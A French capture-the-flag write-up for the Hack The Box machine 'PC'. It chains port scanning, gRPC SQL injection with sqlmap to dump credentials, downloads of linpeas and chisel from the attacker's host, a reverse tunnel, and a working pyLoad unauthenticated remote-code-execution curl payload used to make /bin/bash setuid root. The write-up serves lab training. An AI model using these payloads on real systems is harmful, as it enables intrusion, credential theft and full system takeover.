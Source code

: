   # PC

	echo "10.10.11.214 pc.htb" >> /etc/hosts
	sudo masscan -p1-65535,U:1-65535 10.10.11.214 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 10.10.11.214 -oN nmap.txt
	feroxbuster --silent -u http://pc.htb
	
Scans classiques.

	PORT STATE SERVICE VERSION  
	22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)  
	50051/tcp open unknown


En faisant des recherches sur le port 50051, on trouve qu'il peut être utilisé par gRPC : https://fr.community.intersystems.com/post/grpc-de-quoi-sagit-il-et-le-hello-world 

En tentant de s'y connecter avec netcat on reçoit juste une chaîne de caractères étrange : "▒?��?�� ?"

J'ai trouvé un outil pour communiquer facilement avec cette interface : 
https://github.com/fullstorydev/grpcui 

	go install github.com/fullstorydev/grpcui/cmd/grpcui@latest	
	/home/timothe/go/bin/grpcui -plaintext 10.10.11.214:50051
	firefox http://127.0.0.1:42669/

On a la possibilité de s'authentifier, de s'enregistrer ou d'obtenir des informations. 
S'enregistrer nous donne un token de la forme suivante : 

	token b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiQUFBQUEiLCJleHAiOjE2OTQ5MDIzMTh9.493D_bRSipMj00glZCwtsXkGs7NtEkhy_n6rQdjKmdM'

Je n'ai rien trouvé de concret dans l'application elle-même. En revanche, en cherchant des exploits pour gRPC, j'ai trouvé un article extrêmement intéressant : https://medium.com/@ibm_ptc_security/grpc-security-series-part-3-c92f3b687dd9

La partie la plus attirante est celle sur les injections SQL, j'ai décidé de lancer SQLMap en tâche de fond en vérifiant le reste : 

	sqlmap -r requete_2.txt --dump

Voici la requête interceptée avec Burp et utilisée comme schéma d'attaque : 

	POST /invoke/SimpleApp.getInfo HTTP/1.1
	Host: 127.0.0.1:39031
	Content-Length: 211
	sec-ch-ua: 
	sec-ch-ua-mobile: ?0
	User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.111 Safari/537.36
	Content-Type: application/json
	Accept: */*
	X-Requested-With: XMLHttpRequest
	x-grpcui-csrf-token: JKuKfkzRToZjOiB5ex86Vr9Y_y4L4hkXv6TP7PbqWQ4
	sec-ch-ua-platform: ""
	Origin: http://127.0.0.1:39031
	Sec-Fetch-Site: same-origin
	Sec-Fetch-Mode: cors
	Sec-Fetch-Dest: empty
	Referer: http://127.0.0.1:39031/
	Accept-Encoding: gzip, deflate
	Accept-Language: en-US,en;q=0.9
	Cookie: _grpcui_csrf_token=JKuKfkzRToZjOiB5ex86Vr9Y_y4L4hkXv6TP7PbqWQ4
	Connection: close

	{"timeout_seconds":1,"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiQUFBQUEiLCJleHAiOjE2OTQ5MDIzMTh9.493D_bRSipMj00glZCwtsXkGs7NtEkhy_n6rQdjKmdM"}],"data":[{"id":"1"}]}


Bien penser à utiliser le token généré pour utiliser la fonction "getInfo", cela ne fonctionnait pas sans lui. 

On obtient les credentials pour le compte "admin" et le compte "sau". Ce dernier semble fonctionner en SSH :

	ssh sau@10.10.11.214
	cat user.txt	 


## Élévation de privilèges


	wget http://10.10.16.37/linpeas.sh
	chmod u+x linpeas.sh
	./linpeas.sh > r.txt
	less -R r.txt

Dans le rapport on trouve quelques ports intéressants qui n'écoutent qu'en local : 

	tcp 0 0 127.0.0.53:53 0.0.0.0:* LISTEN -  
	tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN -  
	tcp 0 0 127.0.0.1:8000 0.0.0.0:* LISTEN -  
	tcp 0 0 0.0.0.0:9666 0.0.0.0:* LISTEN -  
	tcp6 0 0 :::22 :::* LISTEN -  
	tcp6 0 0 :::50051 :::* LISTEN -

En fouillant dans les processus, on voit que le port 8000 semble être un service Web.

Mise en place d'un tunnel avec Chisel pour accéder au site web interne avec ma propre machine : 

	wget http://10.10.16.37/chisel_linux_1.7.7
	chmod u+x chisel_linux_1.7.7
	./chisel_linux_1.7.7 client 10.10.16.37:9999 R:8001:127.0.0.1:8000
	...
	./chisel_linux_1.7.7 server -reverse -p 9999 --socks5
	firefox http://127.0.0.1:8001/

On arrive sur un formulaire de login et on voit que le site utilise pyLoad. 
Les credentials classiques ne marchent pas mais il semble exister des exploits sans authentification : 

https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65/

Code du PoC : 

	curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"touch%20/tmp/pwnd\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:8001/flash/addcrypted2'


En lançant ce code d'exemple sur ma machine, puis en vérifiant le répertoire /tmp sur la machine cible, on voit qu'un fichier "pwnd" a bien été créé et qu'il appartient à root. 

J'ai choisi de modifier le fichier /bin/bash en lui mettant un chmod 4777 au lieu de passer par un reverse-shell, pour terminer plus rapidement :

	curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"chmod%204777%20/bin/bash\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:8001/flash/addcrypted2'

Il n'y a plus qu'à retourner sur la machine cible :

	/bin/bash -p
	cat /root/root.txt


